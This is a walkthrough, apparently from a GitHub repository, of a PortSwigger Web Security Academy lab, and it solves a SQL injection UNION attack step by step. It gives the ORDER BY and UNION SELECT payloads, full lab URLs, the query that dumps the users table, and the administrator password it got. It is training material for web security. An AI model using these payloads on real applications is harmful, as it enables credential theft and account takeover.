



## LAB 3: SQL injection UNION attack, retrieving data from other tables
[SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an SQL injection `UNION` attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## Solution

1. We need to determine the number of columns in the table
2. Determine which column is of type string/varchar
3. We need to fetch the `usernames` and `password`
4. Login with `administrator` user

### 1. Determine the number of columns in the table
Using `ORDER BY` we can determine the number of columns in the table. `ORDER BY` sorts a table by a given column index. We can increment the column number by one until we get an error which will tell us that the previous number is the number of columns in the table. 

Trying the following parameters
`' ORDER BY 1--`
`' ORDER BY 2--`
`' ORDER BY 3--` 

On the last paramter where we order by 3 we get the following error `Internal Server Error` which is a 500 internal error. This means the number of columns in the table is 2.

FULL URL: `https://acb71f2e1ee8c3c9c0d843a6003d0023.web-security-academy.net/filter?category=Gifts' ORDER BY 3--`

### 2. Searching for string/varchar column
We need to determine if a column is of type string/varchar this is because we want to be able to return the random string value provided to us by the site as one of the fields. We need to check each column for string/varchar compatibility by return the any string value for the column.

Trying the following parameters
`' UNION SELECT 'abc',NULL--`
`' UNION SELECT NULL'abc'--` 
`' UNION SELECT 'abc','def'--` - Both columns are of type strings/varchar

FULL URL: `https://acb71f2e1ee8c3c9c0d843a6003d0023.web-security-academy.net/filter?category=Gift' UNION SELECT 'abc','def'--`

### 3. Fetch the usernames & passwords
We can now use `UNION` attack to return the random value with usernames & password.

`' UNION SELECT username, password from users--`

FULL URL: `https://acb71f2e1ee8c3c9c0d843a6003d0023.web-security-academy.net/filter?category=Gift' UNION SELECT username, password FROM users--`

### 4. Login as administrator
Login using `administrator`:`nqbbx1zpzvzy6uuczxjl`

<!-- EOF -->